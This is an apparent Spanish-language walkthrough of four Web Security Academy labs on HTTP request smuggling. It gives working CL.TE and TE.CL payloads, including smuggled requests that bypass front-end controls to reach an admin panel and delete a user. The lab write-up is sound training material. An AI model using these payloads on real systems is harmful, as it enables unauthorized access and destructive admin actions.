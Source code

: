 ## Reto 1: Contrabando de solicitudes HTTP, confirmación de una vulnerabilidad CL.TE mediante respuestas diferenciales


Este laboratorio implica un servidor front-end y un servidor back-end, y el servidor front-end no admite la codificación fragmentada.

Para resolver el laboratorio, envíe de contrabando una solicitud al servidor back-end, de modo que se pueda realizar una solicitud posterior. /(la raíz web) activa una respuesta 404 No encontrado. 

Modificamos el `Content-Length: 41` y el `Transfer-Encoding: chunked` y añadimos un solicitud a un sitio que no existe con una cabecera de ejemplo para que sea aceptada , finalmente obtenemos el error 404.

```
POST / HTTP/1.1
Host: 0ad4003703e8c88f80e8d651003d00e3.web-security-academy.net
Content-Length: 41
Transfer-Encoding: chunked
3
abc
0
GET /error HTTP/1.1
Test: A
```

## Reto 2: Contrabando de solicitudes HTTP, confirmación de una vulnerabilidad TE.CL mediante respuestas diferenciales

Este laboratorio implica un servidor front-end y un servidor back-end, y el servidor back-end no admite la codificación fragmentada.

Para resolver el laboratorio, envíe de contrabando una solicitud al servidor back-end, de modo que se pueda realizar una solicitud posterior. `/` (la raíz web) activa una respuesta 404 No encontrado. 

Esta variante de HTTP request smuggling basada en la combinación TE.CL, donde el front-end permite codificación chunked y el back-end no. El objetivo es verificar si existe una desincronización entre ambos servidores manipulando los encabezados de longitud y codificación de la petición.

A través de dos envíos consecutivos desde Burp Repeater, provocamos una situación donde la segunda petición se ve afectada por los restos interpretados desde la primera, desencadenando una respuesta 404 inesperada en la raíz del sitio. 
```
POST / HTTP/1.1
Host: 0a5a00c8041eb13b81eaac5a007c0028.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4
38
POST /error HTTP/1.1
Content-Length: 30
testing=test
0
```
## Reto 3: Explotación del contrabando de solicitudes HTTP para eludir los controles de seguridad del frontend, vulnerabilidad CL.TE

Este laboratorio implica un servidor front-end y uno back-end, y el servidor front-end no admite la codificación fragmentada. Hay un panel de administración en /admin, pero el servidor front-end bloquea el acceso a él.

Para resolver el laboratorio, envíe de contrabando una solicitud al servidor back-end que accede al panel de administración y elimina al usuario. carlos. 

Aplicamos la técnica de HTTP request smuggling con una combinación CL.TE para evadir controles de acceso impuestos por el front-end. El objetivo es acceder al panel de administración, normalmente restringido, y eliminar al usuario carlos desde el back-end.

Para ello, construimos una petición maliciosa que el front-end interpreta como finalizada tras leer los bytes indicados por Content-Length, pero que en realidad contiene una segunda petición HTTP embebida. Esta segunda petición es procesada por el back-end de forma independiente y sin las restricciones del front-end, lo que nos permite interactuar con rutas protegidas como /admin o /admin/delete.

```
POST / HTTP/1.1
Host: 0a0d00b503aada46808c80b800650056.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Transfer-Encoding: chunked
0
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 12
test=test
```

## Reto 4: Explotación del contrabando de solicitudes HTTP para eludir los controles de seguridad del frontend, vulnerabilidad TE.CL

Este laboratorio implica un servidor front-end y uno back-end, y el servidor back-end no admite la codificación fragmentada. Hay un panel de administración en /admin, pero el servidor front-end bloquea el acceso a él.

Para resolver el laboratorio, envíe de contrabando una solicitud al servidor back-end que accede al panel de administración y elimina al usuario. carlos. 

Explotamos una vulnerabilidad TE.CL (Transfer-Encoding + Content-Length) para realizar HTTP request smuggling y evadir las restricciones de acceso impuestas por el front-end. El objetivo es acceder a rutas protegidas como /admin o /admin/delete que no están disponibles directamente desde el navegador.

Utilizamos una petición malformada con codificación chunked para engañar al front-end y que interprete una longitud de contenido más corta de lo que realmente se está enviando. Esto permite que el back-end procese una segunda petición embebida que el front-end nunca llega a validar.

Durante la clase, mostramos cómo construir y ajustar la petición smuggled para que incluya la cabecera ‘Host: localhost‘, necesaria para que el back-end acepte la acción administrativa.

```
POST / HTTP/1.1
Host: 0a0b008303b3ce7b806a802f002c006c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4
5f
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 25
test=testing
0
```



